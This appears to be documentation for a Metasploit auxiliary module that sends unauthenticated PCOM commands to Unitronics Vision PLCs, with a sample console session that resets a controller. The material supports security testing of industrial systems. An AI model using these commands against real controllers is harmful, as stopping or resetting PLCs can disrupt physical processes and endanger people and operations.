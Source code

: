 ## Vulnerable Application

  Unitronics Vision PLCs

## Verification Steps

  1. Do: `use auxiliary/admin/scada/pcom_command`
  2. Do: `set RHOST=IP` where IP is the IP address of the target
  3. Do: `run` to send PCOM command

 ## Scenarios

   ```
msf > use auxiliary/admin/scada/pcom_command
msf auxiliary(admin/scada/pcom_command) > show options

Module options (auxiliary/admin/scada/pcom_command):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   MODE    RESET            yes       PLC command (Accepted: START, STOP, RESET)
   RHOST                    yes       The target address
   RPORT   20256            yes       The target port (TCP)
   UNITID  0                no        Unit ID (0 - 127)

msf auxiliary(admin/scada/pcom_command) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(admin/scada/pcom_command) > run

[*] 192.168.1.1:20256 - Sending RESET command
[*] 192.168.1.1:20256 - Command accepted
[*] Auxiliary module execution completed
msf auxiliary(admin/scada/pcom_command) >
```
